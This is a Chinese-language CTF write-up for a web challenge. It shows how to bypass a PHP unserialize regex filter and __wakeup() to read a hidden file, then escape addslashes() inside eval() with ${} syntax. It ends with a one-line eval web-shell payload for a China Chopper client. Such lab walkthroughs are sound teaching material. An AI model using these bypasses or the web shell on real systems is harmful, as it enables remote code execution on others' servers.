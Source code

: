 ```yaml
---
title: Hash
date: 2018-02-05 00:00:00
categories:
- CTF/Web
tags: 百度杯十月 php反序列化 php黑魔法
---
```


## url参数

```html
index.php?key=123&hash=f9109d5f83921a551cf859f853afe7bb

you are 123;if you are not 123,you can get the flag<br>

<!--$hash=md5($sign.$key);the length of $sign is 8
```

- cmd5解一下这个hash：kkkkkk01123（不知道爆破要多久？）
- 随便构造一个key比如456

```php
<?php
echo md5("kkkkkk01456");//2a5414055268d6f1f82288af38e5ce4e
?>
```

- 提交一下，得到提示`Gu3ss_m3_h2h2.php`

```html
index.php?key=456&hash=2a5414055268d6f1f82288af38e5ce4e
```

## 反序列化绕过
Gu3ss_m3_h2h2.php源码

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 

        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} 
?>
```

- 构造反序列化字符串

```php

<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

$a = new Demo("f15g_1s_here.php");
echo serialize($a)."\n";
echo base64_encode(serialize($a));
?>
```

- 这里如果直接打印字符串有有一个奇怪的输出:  
O:4:"Demo":1:{s:10:**NUL**Demo**NUL**file";s:16:"f15g_1s_here.php";}  

有两个NUL（%00）字符导致对整个字符串操作起来很麻烦，复制的时候会被截断。后来知道这个**NUL**字符是对类中private这种私有成员的序列化后的一个标记。所以最好的办法就是给字符串转成base64然后在burp里的编码工具操作，可以转成ascii和修改十六进制。

> 这里有更奇怪的实验，我先把file的属性改成public，生成一个序列化字符串，然后我再发file的属性改回private，然后用刚才那个字符串反序列化后居然生成可两个对象。（待讨论）

- 绕过正则匹配

```php
preg_match('/[oc]:\d+:/i', $var);
```

> 1. [xyz]
字符集合。匹配所包含的任意一个字符。例如，“[abc]”可以匹配“plain”中的“a”
> 2. ：就是冒号
> 3. \d是匹配一个数字字符相当于[0-9]
> 4. +匹配前面子表达式一次或多次

所以这个其实匹配了序列化字符串开始的部分O:4:  
尝试了O:0x4:失败  
最后用O:+4:绕过

O:+4:"Demo":1:{s:10:**NUL**Demo**NUL**file";s:16:"f15g_1s_here.php";} 

- 绕过__wakeup()方法  

修改序列化字符串中对象的个数，使其不正确即可

O:+4:"Demo":2:{s:10:**NUL**Demo**NUL**file";s:16:"f15g_1s_here.php";} 

- base64编码后提交（burp工具里改）  

从最早没有修改过的base64入手

```
Tzo0OiJEZW1vIjoxOntzOjEwOiIARGVtbwBmaWxlIjtzOjE2OiJmMTVnXzFzX2hlcmUucGhwIjt9
```

改完如下，提交得到f15g_1s_here.php源码
```
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQ==
```

## 绕过addslashes

f15g_1s_here.php源码

```php
<?php 
if (isset($_GET['val'])) { 
    $val = $_GET['val']; 
    eval('$value="' . addslashes($val) . '";'); 
} else { 
    die('hahaha!'); 
} 
?>
```

- 分析最后会拼出一个$value="xxxx";的php语句来执行
- addslashes()这个方法会在单引号（'）、双引号（"）、反斜线（\）与NUL（NULL字符）前添加反斜杠。
- 想用宽字节把双引号逃逸出来，然后就可以命令注入了。类似`%df%22phpinfo();//`这种，发现并没用。

## php黑魔法之双引号

> 这里其实用到一个php的黑魔法就是在双引号包含的字符串中运行一个函数。例子如下:

```php
<?php
$a = 'hello';
echo "$a";
?>
```
这里会输出`hello`，由于双引号的包裹可以导致$符号后面的字符被理解为变量，而打印出变量内容。单引号无效。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "$$a";
?>
```
输出为`hello$hello`，说明双引号中的连用的$符号只能被解析一次，不能被嵌套。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "${$a}";
?>
```

输出为`helloworld`，这里用大括号将$符号进行隔开，使其可以被嵌套解析。这里大括号的作用是在变量间接引用中进行定界。

---

```php
<?php
$var="${phpinfo()}";
?>
```

那么问题来了，这里为什么会执行phpinfo()呢？
- 首先双引号包裹并存在$符号，于是$等着被解析成变量
- 存在大括号定界，$符号的的变量名就是{}中的内容了
- 但是大括号里是一个函数，于是该函数的返回结果才是$认为的变量名（php就是这么奇怪），于是函数被运行。

综上php双引号中可以直接执行函数！将函数用${}包裹即可！  

```php
//最后这题payload如下,然后菜刀
?val=${@eval($_POST[0])}
```
